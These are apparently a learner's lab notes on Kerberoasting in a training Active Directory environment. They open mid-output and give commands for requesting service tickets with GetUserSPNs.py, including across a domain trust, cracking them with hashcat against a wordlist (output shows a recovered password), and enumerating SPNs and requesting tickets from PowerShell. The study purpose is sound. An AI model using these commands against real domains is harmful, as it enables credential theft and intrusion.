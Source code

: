 ```shell-session
sts/inlanefreight.local                            solarwindsmonitor  CN=Domain 
```
 KERBEROAST DIFFERENT DOMAIN
```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL  INLANEFREIGHT.LOCAL/forend -request-user  sapsso -request  -outputfile sspoTGS

```
## Cracking TGSs with Hashcat

```
hashcat -m 13100 <tgs_file> <dictionary_path>
```

Example:
```hashcat

hashcat -m 13100 SAPService-tgs /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5tgs$23$*SAPService$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SAPService*$607cd881e31ff8651ff745f972c7af9c$70912a62c75e456e5065e72c9b5029442078aa1cc:!SapperFi2
```

# Kerberoasting - from Windows 
import module
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
gather spns:
```
setspn -Q */*
```

get   SPN Details for for a specific user: `<acc-name>/<domain>"`
```

PS C:\Tools> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "vmware/inlanefreight.local"


Id                   : uuid-d9e5ffc2-2b2f-4c20-8442-b5a61beecf9a-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 11/29/2024 12:56:28 PM
ValidTo              : 11/29/2024 10:55:06 PM
ServicePrincipalName : vmware/inlanefreight.local
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey



```
